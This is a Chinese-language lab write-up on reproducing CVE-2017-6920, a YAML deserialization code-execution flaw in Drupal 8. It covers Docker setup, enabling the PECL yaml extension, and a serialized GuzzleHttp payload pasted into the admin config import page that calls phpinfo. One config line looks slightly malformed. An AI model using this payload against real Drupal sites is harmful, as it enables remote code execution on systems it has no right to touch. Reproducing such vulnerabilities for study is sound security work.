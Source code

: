 （CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞
=================================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

二、漏洞影响
------------

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal
Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

三、复现过程
------------

### 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8080/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

-   先安装 `yaml` 扩展

```{=html}
<!-- -->
```
    # 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
    cat > sources.list << EOF
    deb http://mirrors.163.com/debian/ jessie main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    EOF
    # 安装依赖
    apt update
    apt-get -y install gcc make autoconf libc-dev pkg-config
    apt-get -y install libyaml-dev
    # 安装yaml扩展
    pecl install yaml
    docker-php-ext-enable yaml.so
    # 启用 yaml.decode_php 否则无法复现成功
    echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
    # 退出容器
    exit
    # 重启容器，CONTAINER换成自己的容器ID
    docker restart CONTAINER

-   1.登录一个管理员账号

-   2.访问
    `http://127.0.0.1:8080/admin/config/development/configuration/single/import`

-   3.如下图所示，`Configuration type` 选择
    `Simple configuration`，`Configuration name`
    任意填写，`Paste your configuration here` 中填写PoC如下：

```{=html}
<!-- -->
```
    !php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"

![](resource/(CVE-2017-6920)DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId26.png)

-   4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

![](resource/(CVE-2017-6920)DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId27.png)

-   Tips：

    -   虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在
        `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0`
        则可以复现成功，故基础镜像选择`drupal:8.3.0`

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2017-6920/

